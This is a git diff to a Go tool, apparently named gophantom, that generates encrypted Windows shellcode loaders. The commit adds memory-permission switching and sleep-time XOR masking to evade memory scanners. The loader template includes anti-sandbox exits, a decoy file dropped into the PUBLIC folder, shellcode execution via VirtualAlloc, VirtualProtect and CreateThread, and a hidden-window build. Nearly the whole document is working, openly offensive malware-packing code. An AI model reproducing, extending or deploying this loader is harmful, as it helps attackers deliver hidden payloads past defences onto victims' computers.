

feat: 新增 RW->RX 切换和睡眠混淆功能

diff --git a/generator.go b/generator.go
@@ -7,7 +7,7 @@ import (
 	"crypto/rand"
 	"encoding/base64"
 	"flag"
-	"gofilepacker/internal/keymgr" // 新增导入
+	"gofilepacker/internal/keymgr"
 	"io"
 	"log"
 	"os"
@@ -27,9 +27,6 @@ const logo = `
                                            by hsad
 `
 
-// loaderTemplate 是最终加载器可执行文件的 Go 源代码模板。
-// v1.1 更新: 移除 AES 密钥常量，替换为 Salt 常量。
-// AES 密钥现在在运行时使用 Argon2id 派生。
 const loaderTemplate = `
 //go:build windows
 // +build windows
@@ -40,9 +37,10 @@ package main
 import (
 	"crypto/aes"
 	"crypto/cipher"
+	"crypto/rand"
 	"encoding/base64"
 	"fmt"
-	"golang.org/x/crypto/argon2" // 新增导入
+	"golang.org/x/crypto/argon2"
 	"golang.org/x/sys/windows"
 	"os"
 	"path/filepath"
@@ -55,30 +53,22 @@ import (
 const (
 	encryptedShellcodeBase64 = "{{.EncryptedPayload}}"
 	encryptedDecoyBase64     = "{{.EncryptedDecoy}}"
-	aesSaltBase64            = "{{.Salt}}" // 已修改: 用 Salt 替换了 Key
+	aesSaltBase64            = "{{.Salt}}"
 	decoyFileName            = "{{.DecoyFileName}}"
 )
 
 // decryptAESGCM 使用通过 Argon2id 从 Salt 派生出的 AES 密钥来解密 Base64 编码的数据。
 func decryptAESGCM(encodedCiphertext, encodedSalt string) ([]byte, error) {
-	// 从 Salt 使用 Argon2id 派生 AES 密钥
 	salt, err := base64.StdEncoding.DecodeString(encodedSalt)
-	if err != nil {
-		return nil, fmt.Errorf("salt decoding failed: %v", err)
-	}
+	if err != nil { return nil, fmt.Errorf("salt decoding failed: %v", err) }
 
-    // 这些参数必须与生成器的 keymgr 包中的参数匹配
     const (
-        argon2Time    = 1
-        argon2Memory  = 64 * 1024
-        argon2Threads = 4
-        keyLength     = 32
+        argon2Time = 1; argon2Memory = 64 * 1024; argon2Threads = 4; keyLength = 32
     )
     var argon2Password = []byte("gophantom-static-secret-for-derivation")
 
 	key := argon2.IDKey(argon2Password, salt, argon2Time, argon2Memory, argon2Threads, keyLength)
 
-	// 后续的解密流程保持不变
 	ciphertext, err := base64.StdEncoding.DecodeString(encodedCiphertext)
 	if err != nil { return nil, fmt.Errorf("ciphertext decoding failed: %v", err) }
 
@@ -97,23 +87,14 @@ func decryptAESGCM(encodedCiphertext, encodedSalt string) ([]byte, error) {
 
 // antiSandboxChecks 执行基本的反沙箱环境检查。
 func antiSandboxChecks() {
-	if runtime.NumCPU() < 2 {
-		os.Exit(0)
-	}
+	if runtime.NumCPU() < 2 { os.Exit(0) }
 
 	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
 	globalMemoryStatusEx := kernel32.NewProc("GlobalMemoryStatusEx")
 	
 	type memoryStatusEx struct {
-		Length               uint32
-		MemoryLoad           uint32
-		TotalPhys            uint64
-		AvailPhys            uint64
-		TotalPageFile        uint64
-		AvailPageFile        uint64
-		TotalVirtual         uint64
-		AvailVirtual         uint64
-		AvailExtendedVirtual uint64
+		Length uint32; MemoryLoad uint32; TotalPhys uint64; AvailPhys uint64; TotalPageFile uint64
+		AvailPageFile uint64; TotalVirtual uint64; AvailVirtual uint64; AvailExtendedVirtual uint64
 	}
 
 	var memStatex memoryStatusEx
@@ -121,33 +102,72 @@ func antiSandboxChecks() {
 	
 	ret, _, _ := globalMemoryStatusEx.Call(uintptr(unsafe.Pointer(&memStatex)))
 	if ret != 0 {
-		if memStatex.TotalPhys/1024/1024/1024 < 4 {
-			os.Exit(0)
-		}
+		if memStatex.TotalPhys/1024/1024/1024 < 4 { os.Exit(0) }
 	}
 }
 
-// executeShellcode 分配内存，复制并执行 shellcode。
-func executeShellcode(shellcode []byte) {
+// sleepObfuscate 在睡眠期间对内存中的 shellcode 进行 XOR 加密/解密，以规避内存扫描。
+func sleepObfuscate(address uintptr, size uintptr) {
+	key := make([]byte, 8)
+	_, err := rand.Read(key)
+	if err != nil {
+		time.Sleep(5 * time.Second)
+		return
+	}
+
+	mem := (*[1 << 30]byte)(unsafe.Pointer(address))[:size:size]
+
+	// 加密
+	for i := 0; i < len(mem); i++ {
+		mem[i] ^= key[i%8]
+	}
+
+	time.Sleep(5 * time.Second)
+
+	// 解密
+	for i := 0; i < len(mem); i++ {
+		mem[i] ^= key[i%8]
+	}
+}
+
+
+// executeShellcode 分配内存 (RW)，写入 shellcode，进行可选的睡眠混淆，
+// 修改内存保护为 (RX)，最后创建线程执行。
+func executeShellcode(shellcode []byte, obfuscate bool) {
 	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
 	virtualAlloc := kernel32.NewProc("VirtualAlloc")
+	virtualProtect := kernel32.NewProc("VirtualProtect")
 	createThread := kernel32.NewProc("CreateThread")
 
-	addr, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
+	// 1. 以 PAGE_READWRITE 权限申请内存
+	addr, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
 	if addr == 0 {
 		return
 	}
 
+	// 2. 将 shellcode 复制到新分配的内存中
 	dst := (*[1 << 30]byte)(unsafe.Pointer(addr))[:len(shellcode):len(shellcode)]
 	copy(dst, shellcode)
 	
+	// 3. (可选) 执行睡眠混淆
+	if obfuscate {
+		sleepObfuscate(addr, uintptr(len(shellcode)))
+	}
+
+	// 4. 将内存页权限从 RW 修改为 RX (PAGE_EXECUTE_READ)
+	var oldProtect uint32
+	_, _, errVirtualProtect := virtualProtect.Call(addr, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))
+    if errVirtualProtect != nil && errVirtualProtect.Error() != "The operation completed successfully." {
+		return
+	}
+	
+	// 5. 创建新线程来执行 shellcode
 	createThread.Call(0, 0, addr, 0, 0, 0)
 }
 
 func main() {
 	antiSandboxChecks()
 
-    // 已修改: 对 decryptAESGCM 的调用现在传递 Salt
 	decoyBytes, err := decryptAESGCM(encryptedDecoyBase64, aesSaltBase64)
 	if err == nil {
 		decoyPath := filepath.Join(os.Getenv("PUBLIC"), decoyFileName)
@@ -160,15 +180,15 @@ func main() {
 	
 	shellcode, err := decryptAESGCM(encryptedShellcodeBase64, aesSaltBase64)
 	if err == nil {
-		executeShellcode(shellcode)
+		// 检查环境变量以决定是否启用睡眠混淆
+		obfuscate := os.Getenv("GPH_OBFUS") == "1"
+		executeShellcode(shellcode, obfuscate)
 	}
 
 	time.Sleep(3 * time.Second)
 }
 `
 
-// TemplateData 用于向模板中注入数据。
-// 已修改: 将 Key 替换为 Salt。
 type TemplateData struct {
 	EncryptedPayload string
 	EncryptedDecoy   string
@@ -176,23 +196,19 @@ type TemplateData struct {
 	DecoyFileName    string
 }
 
-// encryptAESGCM 使用 AES-256-GCM 加密数据并返回 Base64 编码的字符串。
 func encryptAESGCM(plaintext []byte, key []byte) (string, error) {
 	block, err := aes.NewCipher(key)
 	if err != nil {
 		return "", err
 	}
-
 	gcm, err := cipher.NewGCM(block)
 	if err != nil {
 		return "", err
 	}
-
 	nonce := make([]byte, gcm.NonceSize())
 	if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
 		return "", err
 	}
-
 	ciphertext := gcm.Seal(nonce, nonce, plaintext, nil)
 	return base64.StdEncoding.EncodeToString(ciphertext), nil
 }
@@ -217,15 +233,12 @@ func main() {
 	if err != nil {
 		log.Fatalf("[-] Failed to read decoy file: %v", err)
 	}
-
 	shellcodeBytes, err := os.ReadFile(*payloadFile)
 	if err != nil {
 		log.Fatalf("[-] Failed to read payload file: %v", err)
 	}
 
-	// --- 已修改: 密钥派生流程 ---
 	log.Println("[+] Deriving AES-256 key using Argon2id...")
-	// keymgr 会处理从 GOPHANTOM_SALT 读取或生成新随机 Salt 的逻辑。
 	aesKey, salt, err := keymgr.DeriveKeyAndSalt()
 	if err != nil {
 		log.Fatalf("[-] Failed to derive key and salt: %v", err)
@@ -243,11 +256,10 @@ func main() {
 		log.Fatalf("[-] Failed to encrypt payload file: %v", err)
 	}
 
-	// --- 已修改: 模板填充 ---
 	data := TemplateData{
 		EncryptedPayload: encryptedShellcode,
 		EncryptedDecoy:   encryptedDecoy,
-		Salt:             base64.StdEncoding.EncodeToString(salt), // 将 Salt 传递给模板
+		Salt:             base64.StdEncoding.EncodeToString(salt),
 		DecoyFileName:    filepath.Base(*decoyFile),
 	}
 
@@ -276,6 +288,9 @@ func main() {
 	}
 
 	log.Printf("[+] Cross-compiling for windows/amd64 to %s...", *outputFile)
+	// NEW: Added log message about the new feature.
+	log.Println("[+] Evasion feature 'Sleep-Obfuscation' included. (Activate on target with env: GPH_OBFUS=1)")
+
 	ldflags := "-s -w -H windowsgui"
 	cmd := exec.Command("go", "build", "-o", *outputFile, "-ldflags", ldflags, tmpfile.Name())
 	cmd.Env = append(os.Environ(), "GOOS=windows", "GOARCH=amd64", "CGO_ENABLED=0")
